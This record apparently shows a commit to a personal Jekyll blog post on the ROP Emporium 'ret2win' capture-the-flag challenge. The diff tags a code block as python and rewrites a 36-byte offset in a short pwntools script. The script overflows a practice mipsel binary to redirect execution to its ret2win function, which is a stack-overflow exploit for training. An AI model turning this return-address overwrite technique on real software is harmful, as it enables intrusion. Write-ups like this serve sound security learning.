

Before and after one commit to tizianocolagrossi/tizianocolagrossi.github.io, a Jekyll site: the page built from _posts/rop_emporium_ret2win/2021-05-5-rop-emporium-ret2win.md, in a window 1280 px wide and 900 px high, scrolled down 5531 px. Shown: the top 868 px of the window, without its empty margins (251-1028 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
rop emporium ret2win all arch

````diff
--- a/_posts/rop_emporium_ret2win/2021-05-5-rop-emporium-ret2win.md
+++ b/_posts/rop_emporium_ret2win/2021-05-5-rop-emporium-ret2win.md
@@ -223,13 +223,13 @@ log.info(p.recvall())
 # mipsel (32 bit) architecture
 Same 36 bytes offset same payload
 
-```
+```python
 from pwn import *
 context.binary = elf = ELF('./ret2win_mipsel')
 
 p = elf.process()
 
-offset = 4*9
+offset = 36
 payload = b'f'*offset+p32(elf.sym['ret2win'])
 
 p.recv()
````
